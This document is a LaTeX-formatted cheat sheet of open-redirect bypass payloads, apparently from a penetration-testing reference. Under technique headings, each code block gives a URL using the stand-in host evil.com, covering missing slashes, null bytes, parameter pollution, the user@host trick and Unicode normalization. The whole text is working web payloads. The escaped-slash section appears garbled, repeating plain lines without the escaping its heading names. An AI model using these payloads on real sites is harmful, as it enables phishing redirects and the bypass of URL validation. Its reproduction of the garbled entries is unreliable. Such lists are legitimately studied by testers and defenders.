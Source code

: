\documentclass{article}
\begin{document}
\begin{lstlisting}
//evil.com
////evil.com
\end{lstlisting}

\subsection{Bypass Blacklisted Slash}

\begin{lstlisting}
https:evil.com
\end{lstlisting}

\subsection{Escaped Slash Bypass}

\begin{lstlisting}
//evil.com
//evil.com
\end{lstlisting}

\subsection{Null Byte Injection}

\begin{lstlisting}
[https://evil.com%00](https://evil.com%00)
\end{lstlisting}

\subsection{HTTP Parameter Pollution}

\begin{lstlisting}
?next=trusted.com&next=evil.com
\end{lstlisting}

\subsection{Username@Host Trick}

\begin{lstlisting}
https://trusted.com@evil.com
\end{lstlisting}

\subsection{Unicode Normalization}

\begin{lstlisting}
https://evil.c[U+2100].example.com
\end{lstlisting}
\end{document}
